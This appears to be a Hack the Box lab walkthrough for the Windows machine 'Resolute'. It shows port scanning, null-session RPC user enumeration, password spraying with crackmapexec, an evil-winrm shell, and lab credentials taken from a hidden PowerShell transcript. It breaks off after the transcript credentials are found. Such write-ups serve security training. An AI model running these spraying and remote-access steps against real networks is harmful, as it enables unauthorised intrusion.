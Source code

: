 # Hack the Box - Resolute

# Enumeration
## NMAP
```CSS
▶ nmap -Pn -sS -p- 10.10.10.169 -T4 --min-rate 1000 -oN ports.nmap

Nmap scan report for 10.10.10.169
Host is up (0.19s latency).
Not shown: 65512 closed tcp ports (reset)
PORT      STATE SERVICE
53/tcp    open  domain
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
5985/tcp  open  wsman
9389/tcp  open  adws
47001/tcp open  winrm
49664/tcp open  unknown
49665/tcp open  unknown
49666/tcp open  unknown
49667/tcp open  unknown
49671/tcp open  unknown
49676/tcp open  unknown
49677/tcp open  unknown
49682/tcp open  unknown
49711/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 66.74 seconds
```


```CSS
▶ nmap -sC -sV -p 53,88,135,139,389,445,464,593,636,3268,3269,5985,9389,47001 10.10.10.169 -oN services.nmap

Nmap scan report for 10.10.10.169
Host is up (0.18s latency).  
                                          
PORT      STATE SERVICE      VERSION
53/tcp    open  domain       Simple DNS Plus
88/tcp    open  kerberos-sec Microsoft Windows Kerberos (server time: 2023-05-23 18:13:41Z)
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn                                                                                                                 
389/tcp   open  ldap         Microsoft Windows Active Directory LDAP (Domain: megabank.local, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds (workgroup: MEGABANK)                                                        
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap         Microsoft Windows Active Directory LDAP (Domain: megabank.local, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf       .NET Message Framing
47001/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
Service Info: Host: RESOLUTE; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 2h26m32s, deviation: 4h02m30s, median: 6m31s
| smb-os-discovery: 
|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
|   Computer name: Resolute
|   NetBIOS computer name: RESOLUTE\x00
|   Domain name: megabank.local
|   Forest name: megabank.local
|   FQDN: Resolute.megabank.local
|_  System time: 2023-05-23T11:13:52-07:00
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: required
| smb2-time: 
|   date: 2023-05-23T18:13:54
|_  start_date: 2023-05-23T17:43:07
| smb2-security-mode: 
|   311: 
|_    Message signing enabled and required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 35.44 seconds
```

---

## RPC Client
  - Null Session Authentication
```CSS
▶ rpcclient -U "" -N 10.10.10.169
```

  - Enumerate Domain Users
```CSS
rpcclient $> enumdomusers
```
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/d4596127-4b1b-4957-ac1b-c0e30d6cd312)

  - Query Users Info
```CSS
rpcclient $> querydispinfo
```
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/ec7322f6-3ebb-4fb8-8691-c8c92af2dc0e)
The above command return brief information about all the users. An interesting comment for `RID 0x457` is also found.
```CSS
Credentials - marko:Welcome123!
```

  - Query Single User's Info
```CSS
rpcclient $> queryuser 0x1f4
```
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/56612aa0-fa48-41b2-ad95-e6cd47bf97a5)

---

## SMB
  - Attempt to login with found credentials.
```CSS
▶ crackmapexec smb 10.10.10.169 -u marco -p 'Welcome123!' --continue-on-success
```
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/a8ca9538-8a8c-45f6-8263-89df0d2eaeb9)

### Password Spray
  - Create a file containing the list of users found via RPC.
  - Authenticate as any user using the password default password found.
```CSS
▶ vim users.txt

user:[Administrator] rid:[0x1f4]
user:[Guest] rid:[0x1f5] 
user:[krbtgt] rid:[0x1f6]
user:[DefaultAccount] rid:[0x1f7]
user:[ryan] rid:[0x451]   
user:[marko] rid:[0x457]
user:[sunita] rid:[0x19c9]
user:[abigail] rid:[0x19ca]
user:[marcus] rid:[0x19cb]
user:[sally] rid:[0x19cc]
user:[fred] rid:[0x19cd]
user:[angela] rid:[0x19ce]
user:[felicia] rid:[0x19cf]
user:[gustavo] rid:[0x19d0]
user:[ulf] rid:[0x19d1]
user:[stevie] rid:[0x19d2]
user:[claire] rid:[0x19d3]
user:[paulo] rid:[0x19d4]
user:[steve] rid:[0x19d5]
user:[annette] rid:[0x19d6]
user:[annika] rid:[0x19d7]
user:[per] rid:[0x19d8]
user:[claude] rid:[0x19d9]
user:[melanie] rid:[0x2775]
user:[zach] rid:[0x2776]
user:[simon] rid:[0x2777]
user:[naoki] rid:[0x2778]
```
Use within vim to extract the usernames:`%s/user:\[\(.*\)\] rid:\[.*\]/\1/g`

  - Password Spray
```CSS
▶ crackmapexec smb 10.10.10.169 -u users.txt -p 'Welcome123!' --continue-on-success
```
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/8f91e8ba-959b-47e8-bf89-3f0a19668ac7)

```CSS
Credentials- melanie:Welcome123!
```

---

# FootHold
## Evil-WinRM Shell
```CSS
▶ evil-winrm -i 10.10.10.169 -P 5985 -u melanie -p 'Welcome123!'
```
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/e36af976-1ab7-4e1d-80f3-4512e6388fd6)

# Lateral Movement
Use the `-force` option to reveal hidden files and directories.
```CSS
*Evil-WinRM* PS C:\Users\melanie\Documents> cd C:\
*Evil-WinRM* PS C:\> dir -force
```
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/5685fdb2-0738-4a96-93c2-5e87c98c70d9)
A hidden directory `C:\PSTranscripts\ .` is revealed.

This directory further contains a hidden subdirectory `C:\PSTranscripts\20191203\ .` After running the command dir -force again, a hidden file: `C:\PSTranscripts\2019120\PowerShell_transcript.RESOLUTE.OJuoBGhU.20191203063201.txt .` is revealed.
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/89917f19-ef1d-4acc-8abb-1e76588a2b2e)


# Privilege Escalation
###  PowerShell Transcription Logging
PowerShell transcription logging is a feature in PowerShell that allows to record and save a transcript of the commands and output in a PowerShell session. It provides a way to capture the entire session, including input, output, and error messages, into a text file for later review and analysis. When transcription logging is enabled, PowerShell will create a log file that contains a record of all the commands executed within the session, along with their corresponding outputs.
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/5df52d02-73c9-49c0-8a43-a08fbb1dae7a)
```CSS
Credentials- ryan:Serv3r4Admin4cc123!
```
